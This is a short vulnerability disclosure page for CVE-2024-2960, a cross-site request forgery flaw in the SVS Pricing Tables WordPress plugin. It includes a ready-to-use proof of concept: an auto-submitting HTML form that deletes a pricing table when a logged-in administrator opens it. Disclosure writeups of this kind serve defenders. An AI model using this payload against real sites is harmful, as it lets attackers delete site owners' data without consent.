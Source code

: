 ```yaml
---
layout: page
title: CVE-2024-2960
subtitle: SVS Pricing Tables <= 1.0.4 - Cross-Site Request Forgery to Pricing Table Deletion
---
```

## Description
The SVS Pricing Tables plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.0.4. This is due to missing or incorrect nonce validation on the deletePricingTable() function. This makes it possible for unauthenticated attackers to delete pricing tables via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium) - [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 1.0.4

## PoC :
```
<html>
  <!-- eneriiiii <3 -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin.php">
      <input type="hidden" name="page" value="svs&#95;pricing&#95;tables" />
      <input type="hidden" name="Action" value="pricingTableDelete" />
      <input type="hidden" name="ID" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Reference
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/svs-pricing-tables/svs-pricing-tables-104-cross-site-request-forgery-to-pricing-table-deletion
- https://www.cve.org/CVERecord?id=CVE-2024-2960



